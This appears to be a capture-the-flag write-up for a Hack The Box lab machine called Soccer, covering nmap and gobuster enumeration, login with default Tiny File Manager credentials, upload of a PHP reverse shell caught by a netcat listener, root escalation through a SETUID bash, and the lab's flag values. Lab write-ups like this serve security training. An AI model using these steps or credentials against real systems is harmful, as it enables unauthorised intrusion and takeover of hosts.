



### nmap
```sh {linenos=true}
# Nmap 7.92 scan initiated Sun Apr  9 11:53:01 2023 as: nmap -sC -sV -oA nmap/soccer -T4 10.10.11.194
Nmap scan report for 10.10.11.194
Host is up (0.019s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 ad:0d:84:a3:fd:cc:98:a4:78:fe:f9:49:15:da:e1:6d (RSA)
|   256 df:d6:a3:9f:68:26:9d:fc:7c:6a:0c:29:e9:61:f0:0c (ECDSA)
|_  256 57:97:56:5d:ef:79:3c:2f:cb:db:35:ff:f1:7c:61:5c (ED25519)
80/tcp   open  http            nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://soccer.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
9091/tcp open  xmltec-xmlmail?
| fingerprint-strings:
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, RPCCheck, SSLSessionReq, drda, informix:
|     HTTP/1.1 400 Bad Request
|     Connection: close
|   GetRequest:
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 139
|     Date: Sun, 09 Apr 2023 15:53:13 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot GET /</pre>
|     </body>
|     </html>
|   HTTPOptions, RTSPRequest:
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 143
|     Date: Sun, 09 Apr 2023 15:53:13 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot OPTIONS /</pre>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9091-TCP:V=7.92%I=7%D=4/9%Time=6432DF64%P=x86_64-pc-linux-gnu%r(inf
SF:ormix,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\
SF:n\r\n")%r(drda,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x2
SF:0close\r\n\r\n")%r(GetRequest,168,"HTTP/1\.1\x20404\x20Not\x20Found\r\n
SF:Content-Security-Policy:\x20default-src\x20'none'\r\nX-Content-Type-Opt
SF:ions:\x20nosniff\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nCon
SF:tent-Length:\x20139\r\nDate:\x20Sun,\x2009\x20Apr\x202023\x2015:53:13\x
SF:20GMT\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=
SF:\"en\">\n<head>\n<meta\x20charset=\"utf-8\">\n<title>Error</title>\n</h
SF:ead>\n<body>\n<pre>Cannot\x20GET\x20/</pre>\n</body>\n</html>\n")%r(HTT
SF:POptions,16C,"HTTP/1\.1\x20404\x20Not\x20Found\r\nContent-Security-Poli
SF:cy:\x20default-src\x20'none'\r\nX-Content-Type-Options:\x20nosniff\r\nC
SF:ontent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20143\r
SF:\nDate:\x20Sun,\x2009\x20Apr\x202023\x2015:53:13\x20GMT\r\nConnection:\
SF:x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=\"en\">\n<head>\n<met
SF:a\x20charset=\"utf-8\">\n<title>Error</title>\n</head>\n<body>\n<pre>Ca
SF:nnot\x20OPTIONS\x20/</pre>\n</body>\n</html>\n")%r(RTSPRequest,16C,"HTT
SF:P/1\.1\x20404\x20Not\x20Found\r\nContent-Security-Policy:\x20default-sr
SF:c\x20'none'\r\nX-Content-Type-Options:\x20nosniff\r\nContent-Type:\x20t
SF:ext/html;\x20charset=utf-8\r\nContent-Length:\x20143\r\nDate:\x20Sun,\x
SF:2009\x20Apr\x202023\x2015:53:13\x20GMT\r\nConnection:\x20close\r\n\r\n<
SF:!DOCTYPE\x20html>\n<html\x20lang=\"en\">\n<head>\n<meta\x20charset=\"ut
SF:f-8\">\n<title>Error</title>\n</head>\n<body>\n<pre>Cannot\x20OPTIONS\x
SF:20/</pre>\n</body>\n</html>\n")%r(RPCCheck,2F,"HTTP/1\.1\x20400\x20Bad\
SF:x20Request\r\nConnection:\x20close\r\n\r\n")%r(DNSVersionBindReqTCP,2F,
SF:"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")%r
SF:(DNSStatusRequestTCP,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnecti
SF:on:\x20close\r\n\r\n")%r(Help,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\
SF:nConnection:\x20close\r\n\r\n")%r(SSLSessionReq,2F,"HTTP/1\.1\x20400\x2
SF:0Bad\x20Request\r\nConnection:\x20close\r\n\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Apr  9 11:53:20 2023 -- 1 IP address (1 host up) scanned in 18.99 seconds
```


### gobuster
#### subdirectories
```sh {linenos=true}
┌──(kali㉿kali)-[~/htb/soccer]
└─$ sudo gobuster dir -u http://soccer.htb -w /usr/share/seclists/Discovery/Web-Content/raft-small-directories.txt -o gobuster/subdirectories.out -z
===============================================================
Gobuster v3.2.0-dev
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://soccer.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-small-directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.2.0-dev
[+] Timeout:                 10s
===============================================================
2023/04/09 11:55:47 Starting gobuster in directory enumeration mode
===============================================================
/tiny                 (Status: 301) [Size: 178] [--> http://soccer.htb/tiny/]
===============================================================
2023/04/09 11:56:31 Finished
===============================================================
```
Found `/tiny` directory.

### vhost
```sh {linenos=true}
┌──(kali㉿kali)-[~/htb/soccer]
└─$ sudo gobuster vhost -u http://soccer.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -z -o gobuster/vhost.out
===============================================================
Gobuster v3.2.0-dev
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://soccer.htb
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:      gobuster/3.2.0-dev
[+] Timeout:         10s
[+] Append Domain:   false
===============================================================
2023/04/09 11:57:13 Starting gobuster in VHOST enumeration mode
===============================================================
===============================================================
2023/04/09 11:57:23 Finished
===============================================================
```
Nothing here.

### http
After a quick glance at the `html` of the hosted website, there seems to be nothing really here other than the login page of `/tiny`. `Wappalyzer` shows some of the used technologies:



After a bit of digging, I found [this link](https://github.com/prasathmani/tinyfilemanager) which listed some default logins:

```txt
admin:admin@123
user:12345
```

Both creds worked!



While I was digging, I noticed `Tiny File Manager 2.4.3` was vulnerable. After logging in, I got the confirmation that this was, in fact, the vulnerable version.

### CVE-2021-45010
I tried to get [this POC](https://github.com/febinrev/CVE-2021-45010-TinyFileManager-Exploit) to work, but I was unable to. 

Instead, I uploaded a rev shell from [Pentest Monkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).



```sh 
┌──(kali㉿kali)-[~/htb/soccer]
└─$ nc -lnvp 1337
listening on [any] 1337 ...
connect to [10.10.16.20] from (UNKNOWN) [10.10.11.194] 59904
Linux soccer 5.4.0-135-generic #152-Ubuntu SMP Wed Nov 23 20:19:22 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 23:14:57 up  1:34,  0 users,  load average: 0.00, 0.01, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$
```

### privesc
From here, I ran `linpeas.sh` to see how to get to get to the `player` or `root` user. I noticed right away that `/usr/bin/bash` had the `SETUID` bit already, so all I had to do to get `root` was run:

```sh
$ /usr/bin/bash -p
whoami
root
```

Profit.

### Flag
**user.txt:** `7acd46137be252c987b73b6d702c3f92`

**root.txt:** `336175fd3a440ac7670fc0d47581331e`